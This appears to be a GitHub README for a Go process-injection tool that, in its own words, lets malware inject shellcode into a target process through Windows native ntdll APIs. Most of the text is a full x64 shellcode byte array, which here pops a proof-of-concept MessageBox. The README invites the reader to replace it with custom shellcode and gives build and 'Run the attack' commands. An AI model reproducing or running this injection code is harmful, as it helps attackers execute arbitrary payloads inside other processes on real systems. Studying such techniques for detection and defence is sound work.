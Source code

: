 # NT API Injection
This is a tecnique that allow a malware inject shellcode to a target PID. 
Use the NATIVE API windows -> ntdll.dll

In this case the program injects a shellcode that run a MessageBox.
If you want change the shellcode, you need found on the source code this variable: 
```
var codeS = []byte{0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,
	0xd0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
	0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,0x8b,0x52,0x18,
	0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,
	0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,
	0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,
	0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x8b,
	0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,0x00,0x00,0x00,
	0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,0x3e,0x8b,0x48,
	0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x5c,0x48,
	0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,
	0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,
	0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,
	0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
	0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,
	0x01,0xd0,0x3e,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,
	0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,
	0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x3e,
	0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x3e,0x48,0x8d,
	0x8d,0x34,0x01,0x00,0x00,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,
	0xd5,0x49,0xc7,0xc1,0x40,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,
	0x0e,0x01,0x00,0x00,0x3e,0x4c,0x8d,0x85,0x23,0x01,0x00,0x00,
	0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,0xd5,0x48,
	0x31,0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x50,0x4f,
	0x43,0x20,0x4e,0x54,0x20,0x41,0x50,0x49,0x20,0x49,0x4e,0x4a,
	0x45,0x43,0x54,0x49,0x4f,0x4e,0x00,0x4e,0x54,0x20,0x41,0x50,
	0x49,0x20,0x49,0x4e,0x4a,0x45,0x43,0x54,0x49,0x4f,0x4e,0x00,
	0x75,0x73,0x65,0x72,0x33,0x32,0x2e,0x64,0x6c,0x6c,0x00};
```
And change the byte code with a your custom.

To build:
```
GOOS=windows GOARCH=amd64 go build main.go
```
## Run the attack
```
.\main.exe <PID>
```
